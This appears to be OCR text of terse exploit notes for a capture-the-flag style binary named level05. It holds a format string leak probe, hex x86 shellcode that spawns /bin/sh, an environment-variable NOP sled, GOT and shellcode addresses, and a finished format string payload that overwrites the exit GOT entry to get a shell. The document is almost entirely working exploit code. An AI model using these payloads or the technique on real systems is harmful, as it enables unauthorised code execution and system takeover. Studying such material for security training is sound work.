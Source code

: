 BBBB %10$x

0xffffce3e environ

\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

export SHELLCODE=`python -c 'print 1024*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`

shellcode addr (gdb) : 0xffffd632
                        65535 54834
                        65527 54826

exit got.plt : 0x080497e0

(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54826d%10$hn" + "%10701d%11$hn"'; cat) | ./level05

r < <(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54826d%10$hn" + "%10701d%11$hn"')



